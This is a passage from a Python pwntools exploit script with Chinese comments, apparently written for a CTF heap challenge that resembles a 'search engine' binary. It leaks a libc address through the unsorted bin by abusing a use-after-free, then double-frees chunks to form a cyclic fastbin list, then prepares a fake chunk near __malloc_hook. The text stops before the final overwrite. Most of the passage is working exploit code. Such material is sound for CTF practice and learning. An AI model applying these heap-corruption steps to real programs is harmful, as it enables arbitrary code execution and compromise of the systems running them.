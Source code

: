 ```python
    search_word('b')
    sh.recvuntil('Delete this sentence (y/n)?\n')
    sh.sendline('y')
    #free掉chunk,使其fd指向unsortedbin_addr的位置
    #而因为单词chunk的句子的地址正是指向句子的fd，该值不为空，可绕过检查
    #标志位清零后也可通过'\x00'搜索
    search_word('\x00')
    #接受输出的unsortedbin_addr
    sh.recvuntil('Found ' + str(len(smallbin_sentence)) + ': ')
    unsortedbin_addr = u64(sh.recv(8))
    sh.recvuntil('Delete this sentence (y/n)?\n')
    sh.sendline('n')
    return unsortedbin_addr

def exp():
    #1、获取libc地址
    unsortedbin_addr = leak_libc()
    main_arena_addr = unsortedbin_addr - unsortedbin_offset_main_arena
    libc_base = main_arena_addr - main_arena_offset
    log.success('unsortedbin addr: ' + hex(unsortedbin_addr))
    log.success('libc base addr: ' + hex(libc_base))

    #2、构造fastbin循环链表
    #因为malloc_hook附近的chunk大小一般为0x70（0x7F），所以malloc_hook作为内容的fake_chunk的size同样也需要0x70
    #因为fake_chunk的大小为0x70，所以循环链表中的chunk的size也必须大于0x60，小于等于0x70
    index_sentence('a'*0x5d + ' d ')
    index_sentence('b'*0x5d + ' d ')
    index_sentence('c'*0x5d + ' d ')


    #free第一次,因为值d是相同的，所以会一起free掉
    search_word('d')
    sh.recvuntil('Delete this sentence (y/n)?\n')
    sh.sendline('y')
    sh.recvuntil('Delete this sentence (y/n)?\n')
    sh.sendline('y')
    sh.recvuntil('Delete this sentence (y/n)?\n')
    sh.sendline('y')

    #free第二次，构造循环
    #由于chunk_c的指针值为零，所以没有通过验证
    search_word('\x00')
    #chunk_b
    sh.recvuntil('Delete this sentence (y/n)?\n')
    sh.sendline('y')
    sh.recvuntil('Delete this sentence (y/n)?\n')
    sh.sendline('n')
    #第一次创建的chunk
    sh.recvuntil('Delete this sentence (y/n)?\n')
    sh.sendline('n')

    #pwnlib.gdb.attach(proc.pidof(sh)[0],gdbscript="b main")
    #pause()


    #3、创建以malloc_hook地址为内容的fake_chunk
    fake_chunk_addr = main_arena_addr - 0x33
    print hex(fake_chunk_addr)

    #在这里填入的应该直接是fd的位置
    fake_chunk = p64(fake_chunk_addr).ljust(0x60,'f')
    #申请，使其中一个chunk_b的fd变为fake_chunk所在的地址
    #此时fake_chunk已经进入fastbin
```